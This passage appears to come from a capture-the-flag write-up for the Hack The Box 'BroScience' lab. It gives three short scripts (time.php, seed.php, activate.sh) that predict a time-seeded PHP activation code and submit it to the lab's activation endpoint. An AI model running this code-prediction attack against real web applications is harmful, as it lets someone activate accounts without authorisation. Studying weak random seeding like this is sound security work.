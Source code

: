 - Convert this time to Unix Epoch time. Below I will include three scripts.
	- `time.php`
		- This will convert the time-stamp to the Unix Epoch time.
		- Alternatively:
			- [[https://www.epochconverter.com/]]
	- `seed.php`
		- This will take the previous time that was output from `time.php` and convert that time to the string within the `utils.php` `generate_activation_code()` function.
		- The code generates a 32 character long string based on the time. So if you can determine the time then you can determine the 32 character string.
		- You can also copy the code directly from the `generate_activation_code()` function, ensure `srand(your_time)` has your timestamp along with using `echo` on the function to ensure that the `return` statement is echoed to the console.
	- `/activate.sh`
		- This will take one argument which will be the `seed` code we previously generated.
		- The activation code is taken straight from the endpoint linked in the `register.php` code.
			- `https://broscience.htb/activate.php?code=your_code`
- `time.php`

```bash
cat time.php

<?php
$time = readline("Time: ");
$unix_timestamp = strtotime($time);
echo $unix_timestamp;
?>
```

- `seed.php`

```bash
cat seed.php

<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    $seed = readline("Seed value: ");
    srand($seed);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

echo generate_activation_code();

?>
```

- `activate.sh`

```bash
cat activate.sh

#!/bin/bash

curl -k "https://broscience.htb/activate.php?code=$1"
```
